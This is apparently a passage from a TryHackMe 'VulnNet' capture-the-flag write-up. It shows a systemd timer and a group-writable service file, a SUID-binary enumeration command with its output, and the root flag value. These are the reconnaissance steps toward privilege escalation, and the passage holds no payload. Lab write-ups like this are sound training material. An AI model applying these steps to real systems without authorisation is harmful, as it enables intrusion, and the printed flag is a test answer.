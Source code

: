 ```bash
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```

<br>
<br>


<p>1.2. <em>What is the root flag? (root.txt)</em><br>
<code>THM{abea728f211b105a608a720a37adabf9}</code></p>

<br>

```bash
serv-manage@vulnnet-node:~$ systemctl status vulnnet-job.service
\u25cf vulnnet-job.service - Logs system statistics to the systemd journal
   Loaded: loaded (/etc/systemd/system/vulnnet-job.service; disabled; vendor pre
   Active: inactive (dead)
lines 1-3/3 (END)
```

```bash
serv-manage@vulnnet-node:~$ ls -la /etc/systemd/system/vulnnet-job.service
-rw-rw-r-- 1 root serv-manage 197 Jan 24  2021 /etc/systemd/system/vulnnet-job.service
```

```bash
serv-manage@vulnnet-node:~$ cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

```bash
serv-manage@vulnnet-node:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/bin/su
/bin/ping
/bin/fusermount
/bin/umount
/bin/ntfs-3g
/bin/mount
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/local/bin/sudo
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
```